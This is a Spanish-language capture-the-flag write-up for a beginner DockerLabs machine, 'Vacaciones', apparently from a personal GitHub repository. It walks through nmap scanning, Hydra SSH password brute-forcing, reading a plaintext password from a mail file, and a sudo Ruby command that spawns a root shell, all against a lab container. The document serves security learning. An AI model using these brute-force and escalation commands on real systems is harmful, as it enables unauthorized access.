




# Vacaciones — Write-up

**Plataforma:** DockerLabs  
**Dificultad:** Muy Fácil  
**Categoría:** Linux, SSH, Fuerza Bruta, Escalada de Privilegios  
**Fecha:** 2026-05-09  
**Autor:** GrooveRoot

---

## Índice

1. [Reconocimiento](#reconocimiento)
2. [Enumeración](#enumeraci%C3%B3n)
3. [Explotación](#explotaci%C3%B3n)
4. [Post-Explotación / Escalada de Privilegios](#post-explotaci%C3%B3n--escalada-de-privilegios)
5. [Lecciones Aprendidas](#lecciones-aprendidas)

---

## Reconocimiento

**IP objetivo:** `172.17.0.2`

### Nmap

```bash
sudo nmap -sS -sV -sC -T4 -oA vacaciones 172.17.0.2
```



**Puertos abiertos:**

|Puerto|Servicio|Versión|
|---|---|---|
|22/tcp|SSH|OpenSSH 7.6p1 Ubuntu|
|80/tcp|HTTP|Apache httpd 2.4.29|

> Dos superficies de ataque: un servidor web y SSH. Empiezo por el web antes de lanzar nada a ciegas.

---

## Enumeración

### Web — curl al servidor

```bash
curl http://172.17.0.2
```


El servidor devuelve un 404, pero en el código fuente hay un comentario HTML:

```html
<!-- De : Juan Para: Camilo , te he dejado un correo es importante... -->
```

> Dos usuarios identificados: `juan` y `camilo`. El comentario indica que juan le escribe a camilo, así que camilo es el que recibe — probablemente el que tiene la credencial débil por SSH.

---

## Explotación

### Fuerza bruta SSH — Hydra

Con los dos usuarios identificados, lanzo Hydra contra ambos en paralelo desde dos terminales:

```bash
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64 -F
hydra -l juan   -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 64 -F
```

> Camilo cae rápidamente. Contraseña: `password1`.

### Acceso inicial — SSH como camilo

```bash
ssh camilo@172.17.0.2
```

Comprobamos privilegios sudo:

```bash
sudo -l
# Sin resultados útiles para camilo
```

---

## Post-Explotación / Escalada de Privilegios

### Enumeración — correo interno

El comentario de la web mencionaba un correo. Busco en `/var/mail`:

```bash
cat /var/mail/camilo/correo.txt
```



Juan le deja su contraseña a camilo en texto plano: `2k84dicb`

### Pivoting a juan

```bash
su juan
# contraseña: 2k84dicb
```

### sudo -l como juan

```bash
sudo -l
```



Juan puede ejecutar `/usr/bin/ruby` como root sin contraseña.

### Escalada a root — Ruby GTFOBins

```bash
sudo ruby -e 'exec "/bin/bash"'
whoami
# root
```



---

## Lecciones Aprendidas

- **Error inicial:** Lancé Hydra con el usuario `juan` primero porque era el remitente. El comentario decía "De Juan Para Camilo" — el objetivo del brute-force era camilo, no juan. Leer bien antes de lanzar herramientas.
- **Wordlist:** Empecé con la SecList 10k y funcionó, pero rockyou es más fiable para CTFs porque cubre contraseñas típicas que no están en listas cortas.
- **Concepto nuevo:** Pivoting entre usuarios dentro de una misma máquina buscando credenciales en archivos del sistema (`/var/mail`).
- **GTFOBins:** Ruby con sudo → `exec "/bin/bash"`. Cualquier intérprete con sudo sin contraseña es game over.
- **Rabbit hole:** El warning de `known_hosts` al conectar por SSH parecía un problema pero era solo que la IP `172.17.0.2` ya la había usado en una máquina anterior. Fix: `ssh-keygen -f ~/.ssh/known_hosts -R 172.17.0.2`.

---

_Write-up by [GrooveRoot](https://github.com/GrooveRoot)_